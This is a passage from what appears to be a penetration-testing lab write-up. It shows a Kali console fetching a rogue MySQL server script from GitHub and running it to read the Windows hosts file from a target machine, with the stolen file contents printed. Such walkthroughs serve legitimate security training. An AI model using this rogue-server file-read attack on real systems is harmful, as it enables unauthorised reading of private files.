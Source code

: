 ```console
┌──(root㉿kali)-[~]
└─# curl -O https://raw.githubusercontent.com/allyshka/Rogue-MySql-Server/master/roguemysql.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1515  100  1515    0     0   4920      0 --:--:-- --:--:-- --:--:--  4934

┌──(root㉿kali)-[~]
└─# php roguemysql.php
Enter filename to get [/etc/passwd] > C:\Windows\System32\drivers\etc\hosts
[.] Waiting for connection on 0.0.0.0:3306
```

![image](https://user-images.githubusercontent.com/90442032/204709258-0f06b418-7217-4323-849d-baa3ea9396e2.png)

```console
[+] Connection from 10.0.88.33:49396 - greet... auth ok... some shit ok... want file...
[+] C:\Windows\System32\drivers\etc\hosts from 10.0.88.33:49396:
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost
localhost   git.itsl.local
localhost   grafana.itsl.local
127.0.0.1   git.itsl.local
127.0.0.1   grafana.itsl.local
```

The exploit works correctly and allow us to read some files on the target, but there's nothing much we can do with it

Let's leave the Grafana service then

## 2.3. Trying the HTTP service on 5353

Browsing to the HTTP service on 5353 indeed loads the default IIS page:
